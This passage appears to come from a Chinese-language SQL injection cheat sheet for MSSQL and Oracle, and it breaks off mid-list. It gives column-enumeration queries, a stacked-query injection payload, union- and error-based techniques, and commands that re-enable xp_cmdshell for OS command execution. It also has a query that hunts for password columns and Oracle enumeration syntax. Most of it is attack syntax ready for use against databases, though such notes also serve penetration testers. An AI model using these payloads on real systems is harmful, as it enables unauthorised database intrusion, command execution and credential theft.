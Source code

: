 
- 爆column
    - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
    - `SELECT name FROM syscolumns WHERE id=object_id('news')`
    - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
- Union Based
    - Column型態必須相同
    - 可用`NULL`來避免
- Error Based
    - 利用型別轉換錯誤
    - `id=1 and user=0`

- 判斷是否站庫分離
    - 客戶端主機名：`select host_name();`
    - 服務端主機名：`select @@servername; `
    - 兩者不同即站庫分離

- xp_cmdshell
    - 在MSSQL 2000默認開啟
    - MSSQL 2005之後默認關閉
    - 有sa權限，可透過sp_configure重啟它
    
    ```
    EXEC sp_configure 'show advanced options',1
    RECONFIGURE 
    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    ```
    - 關閉xp_cmdshell
    
    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure'xp_cmdshell', 0;
    RECONFIGURE;
    ```

- 快速查找帶關鍵字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`

## Oracle

- `SELECT`語句必須包含`FROM`
    - 用`dual`表
- 子字串：
    - `SUBSTR("abc", 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- IF語句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 註解：
    - `--`
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
    - `SELECT banner FROM v$version where rownum=1`
        - database version
- 庫名
    - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
    - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column